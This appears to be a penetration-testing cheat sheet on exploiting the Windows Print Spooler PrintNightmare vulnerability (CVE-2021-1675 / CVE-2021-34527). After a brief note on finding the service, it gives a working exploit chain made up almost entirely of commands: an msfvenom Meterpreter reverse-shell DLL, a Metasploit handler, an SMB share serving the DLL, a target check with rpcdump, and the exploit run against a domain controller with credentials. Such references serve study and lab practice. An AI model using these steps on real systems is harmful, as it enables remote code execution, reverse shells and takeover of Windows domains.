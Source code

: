 ```yaml
---
title: Windows Print Spooler Service
desc: A service that is running on each computer that participates in the Print Services system. It may be vulnerable to the PrintNightmare (CVE-2021-1675 / CVE-2021-34527).
tags: [CVE-2021-1675, CVE-2021-34527, Impacket, Metasploit, Print, PrintNightmare, Windows]
alts: []
render_with_liquid: false
---
```


**[The proof of concept](https://github.com/cube0x0/CVE-2021-1675){:target="_blank"}{:rel="noopener"}** is available.

## Where is the Print Spooler on Windows

1. **Open Services**

2. **You are able to find the Print Spooler on the Right Pane**

3. **Double-Click on It**

    You can start/stop/pause/resume the Print Spooler in there.

<br />

## Exploit

1. **Clone the Repository**

    ```sh
    git clone https://github.com/cube0x0/CVE-2021-1675
    ```

2. **Download Impacket and Setup**

    ```sh
    git clone https://github.com/cube0x0/impacket
    cd impacket
    python3 setup.py install
    ```

3. **Create the Malicious DLL with Msfvenom**

    ```sh
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local-ip> LPORT=<local-port> -f dll -o ./malicious.dll
    ```

4. **Start Metasploit and Reverse TCP**

    ```sh
    msfconsole

    msf > use exploit/multi/handler
    msf > set payload windows/x64/meterpreter/reverse_tcp
    msf > set lhost <local-ip>
    msf > set lport <local-port>

    msf > run -j

    # Started reverse tcp

    msf > jobs
    ```

5. **Host the Malicious DLL**

    ```sh
    cd impacket/examples
    python3 smbserver.py <share-name> <share-path> -smb2support
    ```

6. **Examine the Target Fits the Criteria to Exploit It**

    ```sh
    python3 rpcdump.py @<remote-ip> | egrep 'MS-RPRN|MS-PAR'
    # Protocol: [MS-RPRN]: Print System Remote Protocol 
    # Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
    ```

7. **Run the Exploit**

    ```sh
    cd CVE-2021-1675
    python3 CVE-2021-1675.py Domain.Controller.local/<username>:<password>@<remote-ip> '\\<local-ip>\path\to\malicious.dll'
    ```